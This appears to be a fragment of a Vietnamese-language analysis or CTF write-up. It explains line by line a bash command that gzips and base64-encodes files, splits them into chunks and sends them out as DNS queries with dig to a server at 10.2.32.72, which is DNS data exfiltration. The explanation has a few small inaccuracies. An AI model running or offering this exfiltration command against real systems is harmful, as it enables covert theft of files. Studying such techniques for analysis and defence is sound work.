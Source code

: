   - f = file1.txt
  - f = file2.txt
  - f = file3.txt
- ``s=4;b=50;c=0;``: Dòng này gán biến thôi =))
- ```
  for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do
  if [[ "$c" -lt "$s"  ]]; then
      echo -ne "$i-.";
      c=$(($c+1));
  else
      echo -ne "\n$i-.";
      c=1;
  fi;
  done ); 
  ```
  Vòng lặp này là lặp qua các đoạn dữ liệu trong tệp ở vòng lặp ngoài.
  Lệnh ``gzip -c &f`` được sử dụng để nén tệp f thành 1 luồng nhị phân, sau đó sẽ mã hóa base64. Lệnh ``sed "s/.\{$b\}/&\n/g"`` được sử dụng để chia dữ liệu được mã hóa thành base64 thành các đoạn 50 ký tự.
  Ngoài ra, dòng ``if [[ "$c" -lt "$s"  ]]; then`` thì nếu biến c < s thì các block 50 ký tự base64 sẽ kết thúc bằng 2 ký tự "-.", còn nếu c == s == 4 thì sẽ xuống dòng
  Thử đoạn code này sẽ hiểu thêm

  ```
  for f in *; do
  s=4
  b=50
  c=0
    for r in $(gzip -c "$f" | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do
      if [ "$c" -lt "$s" ]; then
        echo -ne "$r-."
        c=$((c + 1))
      else
        echo -ne "\n$r-."
        c=1
      fi
    done
  echo
  done
  ```

- ```
  do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ;
  ```
  Các hàm trong đoạn code đó như sau:
  - dig: Là một công cụ dòng lệnh được sử dụng để truy vấn thông tin DNS.

  - +tries=1: Xác định số lần thử nghiệm trước khi dừng lại. Trong trường hợp này, được đặt là 1 lần.
  - +timeout=1: Đặt thời gian chờ cho mỗi truy vấn là 1 giây.
  - +noidnin: Tắt việc chuyển đổi tên miền ngược.
  - +noidnout: Tắt việc chuyển đổi tên miền xuôi.
  - @10.2.32.72 chính là máy chủ DNS cụ thể để truy vấn đến
  - Sau đó, các mã base64 ban nãy, sẽ thay '+' -> '}', '/'->'{', sau đó sẽ mã hóa base58
